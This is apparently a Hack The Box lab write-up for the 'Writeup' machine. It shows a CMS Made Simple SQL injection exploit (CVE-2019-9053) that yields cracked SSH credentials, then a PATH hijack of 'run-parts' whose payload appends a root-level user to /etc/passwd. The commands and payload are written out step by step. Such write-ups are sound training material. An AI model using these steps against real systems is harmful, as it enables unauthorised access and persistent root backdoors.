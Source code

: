 # HTB-Writeup

Box: Writeup  
IP: 10.10.10.138

Browsing to ```http://10.10.10.138/``` we see a warning about an 'Eeyore DoS protection script' so we probably shouldn't do any dirbusting.

The ```/robots.txt``` file has a disallow in place for ```/writeup/``` so of course we'll want to check that out. 

The source code for ```http://10.10.10.138/writeup/``` shows the website is using CMS Made Simple. Running ```searchsploit CMS Made Simple``` shows a lot of results so we need to find out what version we're up against if we want to skid through. The copyright from the source code says 2019 so doing some searching indicates that 2.2.9 or 2.2.10 are the only versions released in that year. This seems like a safe starting point.

With a bit of research, and help from searchsploit, we see that CVE-2019-9053 is a SQL Inject vuln for 2.2.10 with an exploit already available in python. We'll try this one out, but always a good idea to read the source code first though to see what we're doing.

First we can tell that it's written in Python2, but we also want to know what the actual attack is. Looking at ```payload=``` we can see it's a blind time-based SQL injection attack. A good indicator of this is the included ```sleep()``` function. There is also a function to crack the hash once obtained, so we'll give that a shot before trying hashcat. The cracking functionality seems pretty straightforward, running through a provided list using a salt+pw format. I'm going to use the rockyou list for this since everyone should already have a copy.

Let's try the exploit: ```python 46635.py -u http://10.10.10.138/writeup/ --crack -w rockyou.txt```


Password found and cracked!

```
[+] Salt for password found: *****
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: *****
[+] Password cracked: *****
```
*I removed the password, salt, and hash so I don't spoil all of the fun*


Now let's use this to SSH into the box ```ssh jkr@10.10.10.138```

Success, user account owned, so let's grab our first flag ```cat user.txt```

Always a good idea to get some basic ```id``` info to start, so we'll do that and save the information for later.

```uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)```

One thing to note though is the staff membership. In Debian this allows local modification to the system, so may be useful!

Ok so owning user was easy but now we need to get root. There is a great tool called ```pspy``` that we'll use for deeper analysis. It sets up inotify FileSystemWatchers to scan ```/proc/``` and also watch ```/usr``` for short-lived processes. This is a really great enumaration tool to have in your arsenal for path injection and privilege escalation vulns.

We'll copy pspy over to the server so we can use it ```scp pspy32 jkr@10.10.10.138:/home/jkr```

Once it's on the server we'll need to make it executable ```chmod +x pspy32```

Then we'll launch it to monitor what's going on ```./pspy32```

Start a new SSH session so we can monitor that action first. It's always a good idea to make sure both terminals are viewable so you can see new processes as they happen.

After playing around a bit we can see that after every successful SSH auth the following is run:

```sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new```

Let's go down the rabbit hole and see if we can abuse it. First of all we can see that something called ```run-parts``` gets executed every time. We can also see that it's being executed by relative path so we can probably hijack this.

If we dig deeper with ```which run-parts``` we see that by default it's in ```/bin/```, but if you look closely at the way env sets the path at login you'll see something interesting. When the path is set, ```/usr/local/bin``` is called before ```/usr/bin``` 

We saw earlier that our account was a member of staff, which we can see gives us the write access we need ```find / -group staff 2>/dev/null```

This means that we should be able to put our code in ```/usr/local/bin``` and have it execute next time we SSH into the box.

Time for some path injection.

Let's create a bash script that adds a new root user, then have that execute.

First we need to use openssl create a hash of our desired password ```openssl passwd writeup```

Now create the bash file, add our payload, and make it executable.

```cd /usr/local/bin/```

Create the hijack file: ```nano run-parts```

Add our payload text:
```
#!/bin/bash
echo 'rooot:qzhFLYLV9Mkkg:0:0:root:/root:/bin/bash' >> /etc/passwd
```

And make it executable: ```chmod +x run-parts``` 

Now start a new SSH session to trigger our script, and check the results with ```cat /etc/passwd```

You should see our new ```rooot``` user added with the correct UID and hash, so let's grab the flag.

```
su rooot
cd /root/
cat root.txt
```


"The only way of discovering the limits of the possible is to venture a little way past them into the impossible" - Arthur C. Clarke

